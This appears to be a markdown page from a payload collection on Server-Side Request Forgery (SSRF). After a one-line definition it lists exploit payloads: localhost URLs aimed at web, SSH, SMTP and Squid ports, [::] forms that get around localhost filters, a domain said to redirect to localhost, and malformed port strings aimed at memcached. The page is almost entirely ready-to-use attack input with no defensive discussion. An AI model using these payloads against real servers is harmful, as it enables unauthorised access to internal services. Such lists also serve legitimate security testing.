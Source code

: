 # Server-Side Request Forgery 
Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on behalf of him.	

## Exploit

Basic SSRF v1
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

Basic SSRF v2
```
http://localhost:80
http://localhost:443
http://localhost:22
```

Bypass localhost with [::]
```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

Bypass localhost with a domain redirecting to locahost
```
http://n-pn.info
```

-> 11211
localhost:+11211aaa
localhost:00011211aaaa

## Thanks to
* 
